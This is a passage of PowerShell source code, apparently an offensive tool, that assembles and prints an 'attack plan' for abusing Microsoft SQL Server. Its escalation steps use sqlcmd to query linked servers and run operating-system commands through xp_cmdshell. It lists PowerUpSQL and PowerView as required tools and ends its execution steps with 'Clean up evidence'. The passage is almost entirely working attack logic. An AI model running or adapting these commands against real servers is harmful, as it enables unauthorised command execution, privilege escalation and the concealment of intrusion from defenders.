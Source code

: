 ```powershell
                    Command = "sqlcmd -S $($attack.Instance) -Q \"SELECT @@VERSION FROM [LINK_NAME].[master].[sys].[servers]\""
                    ExpectedResult = "Linked server version information"
                }
                
                $attackPlan.EscalationPaths += @{
                    Step = 3
                    Action = "Execute commands on linked server"
                    Tool = "sqlcmd.exe"
                    Command = "sqlcmd -S $($attack.Instance) -Q \"EXEC [LINK_NAME].[master].[sys].[xp_cmdshell] 'whoami'\""
                    ExpectedResult = "Command execution on linked server"
                }
            }
        }
        
        # Identify tool requirements
        $attackPlan.ToolRequirements = @(
            "sqlcmd.exe - SQL Server command line tool",
            "PowerUpSQL - SQL Server enumeration and abuse",
            "PowerView - Active Directory enumeration",
            "Custom scripts - SQL Server abuse automation"
        )
        
        # Generate execution steps
        $attackPlan.ExecutionSteps = @(
            "1. Enumerate SQL Server instances",
            "2. Test instance accessibility",
            "3. Identify vulnerable configurations",
            "4. Execute immediate attacks",
            "5. Plan privilege escalation",
            "6. Execute escalation attacks",
            "7. Clean up evidence"
        )
        
        # Display attack plan
        Write-Host "SQL Server Abuse Attack Plan:" -ForegroundColor Green
        
        Write-Host "`nImmediate Attack Opportunities:" -ForegroundColor Red
        foreach ($attack in $attackPlan.ImmediateAttacks) {
            Write-Host "  Instance: $($attack.Instance)" -ForegroundColor Cyan
            Write-Host "    Attack Type: $($attack.AttackType)"
            Write-Host "    Description: $($attack.Description)"
            Write-Host "    Tool: $($attack.Tool)"
            Write-Host "    Command: $($attack.Command)"
            Write-Host "    Risk: $($attack.Risk)"
            Write-Host ""
        }
        
        Write-Host "Privilege Escalation Paths:" -ForegroundColor Yellow
        foreach ($step in $attackPlan.EscalationPaths) {
            Write-Host "  Step $($step.Step): $($step.Action)" -ForegroundColor Cyan
            Write-Host "    Tool: $($step.Tool)"
            Write-Host "    Command: $($step.Command)"
            Write-Host "    Expected Result: $($step.ExpectedResult)"
            Write-Host ""
        }
        
        Write-Host "Required Tools:" -ForegroundColor Green
        foreach ($tool in $attackPlan.ToolRequirements) {
            Write-Host "  - $tool"
        }
        
```